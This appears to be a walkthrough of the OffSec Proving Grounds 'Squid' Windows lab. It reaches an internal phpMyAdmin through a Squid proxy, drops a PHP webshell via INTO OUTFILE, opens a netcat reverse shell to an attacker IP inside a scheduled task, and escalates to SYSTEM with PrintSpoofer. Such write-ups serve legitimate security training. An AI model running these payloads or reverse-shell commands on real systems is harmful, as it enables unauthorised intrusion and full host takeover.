


# Squid — OffSec Proving Grounds Walkthrough

**Platform:** Proving Grounds Practice
**Difficulty:** Intermediate
**OS:** Windows

---

## TL;DR

Squid Proxy on port 3128 → Port forwarding reveals internal WAMP server (port 8080) with phpMyAdmin → No password for `root` → `INTO OUTFILE` webshell execution → Scheduled Tasks privilege restoration → PrintSpoofer to NT AUTHORITY\SYSTEM.

---

## Enumeration

```bash
nmap -sV -p- 192.168.192.189
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 135,139,445 | SMB/RPC | Windows Services |
| 3128 | HTTP Proxy | Squid http proxy 4.14 |

We have a **Squid proxy** on port 3128. This usually means internal services are hidden but accessible *through* the proxy.

Using `spose` (Squid Proxy IP Port Scanner):


We find internal ports **3306 (MySQL)** and **8080 (HTTP)** are open.

---

## Exploitation — Internal phpMyAdmin to Webshell

Setup **FoxyProxy** to route browser traffic through `192.168.192.189:3128`.

Navigating to `http://192.168.192.189:8080` reveals a WAMP server page with phpMyAdmin.


Log in with default credentials for XAMPP/WAMP: **`root`** with **no password**. It works!

From `phpinfo()`, we determine the webroot is `C:\wamp\www\`.


In the MySQL console, execute the classic `INTO OUTFILE` attack to drop a webshell:
```sql
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'C:/wamp/www/shell.php'
```

Drop `nc.exe` onto the box using `certutil` via the webshell, then execute it for a reverse shell.
We land as **LOCAL SERVICE**.

---

## Privilege Escalation — Privilege Restoration & PrintSpoofer

Checking privileges as `LOCAL SERVICE`:
```cmd
whoami /priv
```
Noticeably, `SeImpersonatePrivilege` is missing. 

However, Windows has a quirk: `LOCAL SERVICE` accounts started directly may lack privileges, but if a scheduled task starts a process under `LOCAL SERVICE`, it receives its default restricted token *which includes* `SeImpersonatePrivilege`! (Credit to [itm4n's research](https://itm4n.github.io/localservice-privileges/)).

Let's use PowerShell to create a scheduled task that sends us a *new* reverse shell:
```powershell
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\wamp\www\nc.exe 192.168.118.23 4444 -e cmd.exe`""
$TaskPrincipal = New-ScheduledTaskPrincipal -UserId "LOCALSERVICE" -LogonType ServiceAccount -RequiredPrivilege "SeAssignPrimaryTokenPrivilege", "SeAuditPrivilege", "SeChangeNotifyPrivilege", "SeCreateGlobalPrivilege", "SeImpersonatePrivilege", "SeIncreaseWorkingSetPrivilege"
Register-ScheduledTask -Action $TaskAction -TaskName "GrantAllPerms" -Principal $TaskPrincipal
Start-ScheduledTask -TaskName "GrantAllPerms"
```

In the new shell:
```cmd
whoami /priv
# SeImpersonatePrivilege is now Enabled!
```

From here, it's standard **PrintSpoofer**:
```cmd
PrintSpoofer64.exe -i -c "cmd /c cmd.exe"
```
**NT AUTHORITY\SYSTEM.** 🎉

---

## Key Takeaways

- **Squid Proxy (3128)** is an invitation to scan and access localhost-bound services using tools like FoxyProxy and `spose`.
- **phpMyAdmin + ROOT permissions** = Trivial RCE via `SELECT ... INTO OUTFILE`.
- **LOCAL SERVICE** accounts often have their privileges stripped, but spawning a process via Scheduled Tasks as `LOCAL SERVICE` restores the default privileges, including `SeImpersonatePrivilege`!

---

*Thanks for reading! Follow for more OffSec walkthrough content.*
